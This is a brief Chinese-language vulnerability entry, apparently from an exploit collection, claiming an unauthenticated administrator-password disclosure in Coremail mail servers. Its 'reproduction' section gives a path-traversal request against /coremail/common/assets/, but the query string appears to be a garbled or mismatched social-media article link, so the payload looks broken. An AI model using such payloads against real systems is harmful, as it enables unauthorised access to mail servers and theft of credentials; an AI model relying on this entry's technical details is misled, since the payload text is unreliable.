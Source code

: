 #### 影响范围

Coremail

#### 漏洞概述

Coremail_未授权获取管理员密码

#### 漏洞复现

```
/coremail/common/assets/../../../../../../s?biz=Mzl3MTk4NTcyNw==&mid=2247485877&idx=1&sn=7e5f77db320ccf9013c0b7aa72626688chksm=eb3834e5dc4fbdf3a9529734de7e6958e1b7efabecd1c1b340c53c80299ff5c688bf6adaed61&scene=2
```

